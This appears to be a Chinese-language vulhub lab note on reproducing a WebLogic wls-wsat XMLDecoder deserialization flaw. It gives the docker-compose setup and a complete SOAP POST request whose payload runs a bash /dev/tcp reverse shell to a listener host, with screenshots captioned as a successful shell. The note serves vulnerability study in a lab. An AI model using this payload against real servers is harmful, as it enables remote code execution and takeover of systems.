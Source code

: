 ```
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。



### 漏洞复现

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

~~~http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.1.146:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.1.146/2233 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>

~~~

**bp重发报文：**

![image-20220601182306870](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220601182306870.png)

**成功获得反弹shell:**

![image-20220601182356456](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220601182356456.png)
